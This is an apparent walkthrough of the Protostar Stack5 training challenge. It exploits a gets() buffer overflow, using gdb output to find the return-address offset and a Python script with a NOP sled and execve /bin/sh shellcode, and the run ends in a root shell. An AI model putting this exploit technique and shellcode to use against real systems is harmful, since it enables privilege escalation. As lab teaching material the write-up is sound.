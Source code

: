 Our goal is to solve this explotation challenge <i> [Stack5](https://exploit.education/protostar/stack-five/)</i>


# Code to exploit 
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}


```
## Problem of code
This is a standard buffer overflow challenge. We will redirect code execution to stack and we will use a shellcode

We will execute the programm with gdb to have a view of the assembly code and memory.

```

(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   %ebp
0x080483c5 <main+1>:	mov    %esp,%ebp
0x080483c7 <main+3>:	and    $0xfffffff0,%esp
0x080483ca <main+6>:	sub    $0x50,%esp
0x080483cd <main+9>:	lea    0x10(%esp),%eax
0x080483d1 <main+13>:	mov    %eax,(%esp)
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave  
0x080483da <main+22>:	ret    
End of assembler dump.

```

We insert a break point before the return-instruction and then we print the stack 

We pass as programm input a huge string "AAAABBBBCCCC..." and then we see that the 
return address is overwritten with 0x54545454.


```

(gdb) b * main+22
Breakpoint 1 at 0x80483da: file stack5/stack5.c, line 11.
(gdb) r < /home/user/tmp 
Starting program: /opt/protostar/bin/stack5 < /home/user/tmp

(gdb) x/10xw$esp
0xbffff6dc:	0x54545454	0x55555555	0x56565656	0x57575757
0xbffff6ec:	0x58585858	0x59595959	0x5a5a5a5a	0xb7ffef00
0xbffff6fc:	0x08048232	0x00000001



```


We know that the ASCII value 0x54 is letter T so our exploit string will be 
"AAAABBBBCCCC....SSSS"+ the address of our shell-code + the shell-code

We will put our shellcode 32 (random number) bytes after $esp and we will use a lot of NOPs
hoping we will hit one of the NOP

And then with this python code we will do the final explotation

```

import struct

#This function generates a string like AAAABBBBCCCC so that we can find some information 
#when we overflow gets function. Characters like AAAABBBBCCCC have easy to recognise hex values

def create_overflow_string(size):
        string = ""
        for i in range(size):
                if (i <26):
                        string = string + str(chr(65+i))*4
        return string

RANDOM_STRING_OVERFLOW = False
#RANDOM_STRING_OVERFLOW = True


#Find stack information
if (RANDOM_STRING_OVERFLOW == True ):
        string = create_overflow_string(26)
        print(string)

#Actual exploit
else:
        string = create_overflow_string(26)

        string =  string.split("TTTT")[0]

        #EIP points to next word
        EIP = struct.pack("I",0xbffff6e0+32)
#       code = "\x90"*100+ "\xCC"*4
#       Copy shellcode from https://shell-storm.org/shellcode/files/shellcode-851.php
        code = "\x90"*100 +"\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68"

        print (string+EIP+code)



```


Finally we run like this, we use cat to keep stdin open for bin sh

```

user@protostar:~$ (python stack5.py ; cat) | /opt/protostar/bin/stack5
ls -all 
total 17
drwxr-xr-x 2 user user  100 Aug 31 12:51 .
drwxr-xr-x 6 root root   60 Oct 31  2012 ..
-rw------- 1 user user  308 Aug 31 12:51 .bash_history
-rw-r--r-- 1 user user  220 Apr 10  2010 .bash_logout
-rw-r--r-- 1 user user 3184 Apr 10  2010 .bashrc
-rw-r--r-- 1 user user  675 Apr 10  2010 .profile
-rw-r--r-- 1 user user 1084 Aug 31 12:51 stack5.py
-rw-r--r-- 1 user user  105 Aug 31 12:40 tmp
whoami
root



```

and we get the expected output
